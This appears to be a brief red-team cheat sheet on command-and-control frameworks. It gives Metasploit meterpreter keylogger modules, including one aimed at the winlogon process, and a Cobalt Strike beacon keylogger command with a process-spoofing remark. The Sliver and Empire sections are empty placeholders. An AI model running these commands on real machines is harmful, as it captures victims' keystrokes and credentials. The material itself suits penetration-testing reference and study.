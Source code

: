 # C2 Frameworks

## Metasploit

```
meterpreter > run post/windows/capture/keylog_recorder
```

```
meterpreter > run post/windows/capture/lockout_keylogger [pid=<winlogon_PID>]
```

## Sliver

TODO: Fill this info

## Empire

TODO: Fill this info

## Cobalt Strike

This will spawn to a child process when using the spawnto beacon command otherwise it'll use the rundll32 as default. You can optionally spoof to another process

```
beacon> keylogger <pid> <arch>
```